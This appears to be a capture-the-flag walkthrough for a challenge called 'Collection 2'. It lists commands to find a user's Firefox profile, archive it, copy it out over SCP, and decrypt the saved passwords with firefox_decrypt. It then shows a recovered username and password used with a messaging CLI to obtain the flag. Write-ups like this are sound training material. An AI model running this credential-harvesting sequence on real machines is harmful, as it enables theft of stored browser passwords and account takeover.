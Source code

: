 # Collection 2

1. Resume From [🗂 PC2](../13-PC2/)
2. Chek Bash History: `cat .bash_history`
```
...
notification-cli
...
```
3. Check [🗂 notification-cli](./02-notification-cli.py), Python Based WS Messenger!
4. Look for Mozilla Password Files
```
# find firefox every
find / -name firefox
```
5. firefox profile: `/home/rezaee/snap/firefox/common/.mozilla/firefox/s1r0klni.default/`
6. Compress with tar
```
cd ..
tar -zcvf profile.tar.gz ./s1r0klni.default/
```
7. Download With SCP
```
scp -P 7777 -i ~/.ssh/id_rsa2 rezaee@127.0.0.1:/home/rezaee/snap/firefox/common/.mozilla/firefox/profile.tar.gz ./07-profile.tar.gz
```
6. Download Firefox Decryptor:
```
wget https://github.com/unode/firefox_decrypt/blob/main/firefox_decrypt.py
```

7. Extract [🗂 Profile.tar.xz](./07-profile.tar.gz)

8. Run Extractor: `python 06-firefox_decrypt.py ./s1r0klni.default`
```
Website:   https://notification.petromaz.ir
Username: 'rezaee'
Password: '8QmzBKyXJXDM'
```
9. Send Message to `mansouri`
```
# Help
notification-cli -h

# Send Message
notification-cli rezaee 8QmzBKyXJXDM s "hello" mansouri

# Receive Message
notification-cli rezaee 8QmzBKyXJXDM r 20 mansouri
```
10. Flag in Response